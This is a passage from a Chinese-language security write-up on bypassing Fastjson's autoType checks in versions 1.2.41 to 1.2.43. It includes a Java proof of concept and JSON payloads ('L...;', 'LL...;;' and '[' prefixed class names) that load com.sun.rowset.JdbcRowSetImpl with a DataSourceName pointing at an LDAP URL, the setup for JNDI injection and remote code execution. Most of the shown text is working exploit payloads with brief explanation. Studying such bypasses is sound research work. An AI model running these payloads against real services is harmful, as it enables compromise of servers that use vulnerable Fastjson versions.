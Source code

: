 ```bash
package EXPFastJson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class FastJsonBypass1247 {
    public static void main(String[] args){
        //第一步：反序列化一个 Class 类，值为恶意类
        //用之前 payload 从缓存中继续加载
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);

//        String s="{{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://127.0.0.1:8085/hFtNevZa\",\"AutoCommit\":false}}";
        String s="{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"DataSourceName\":\"ldap://127.0.0.1:8085/hFtNevZa\",\"AutoCommit\":1}";
        JSON.parseObject(s);
    }
}
```

## FastJson1.2.42 绕过：

1.2.42 相较于之前的版本，关键是在`ParserConfig.java`中修改了 1.2.41 前的代码

*   对于传入的类名，删除开头`L`和结尾的`;`

但是可以发现在以上的处理中，只删除了一次开头的`L`和结尾的`;`，双写可以绕过。

```bash
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","DataSourceName":"ldap://127.0.0.1:8085/hFtNevZa","AutoCommit":1}
```

## FastJson1.4.43 绕过：

1.2.43 版本修改了`checkAutoType()`的部分代码，对于 LL 等开头结尾的字符串抛出异常，这里我们就可以用`[`和`{`进行绕过：

```bash
{"@type":"[com.sun.rowset.JdbcRowSetImpl","DataSourceName":"ldap://127.0.0.1:8085/hFtNevZa","AutoCommit":1}
```

[![](assets/1701612260-f9a825ae2fde8ad08979184f7e13b35b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230552-6a7b137e-296a-1.png)

看到报错提示，期待出现\[，但是出现了两个逗号，所以我们在后面再加一个\[：

[![](assets/1701612260-f46a174b930e6ee20750f2026652b813.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230558-6e4bfa86-296a-1.png)

然后我们再按他说的在后面再加一个{：

[![](assets/1701612260-63972b7bc75c67742dc7b5101c3b58a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230604-71713f28-296a-1.png)
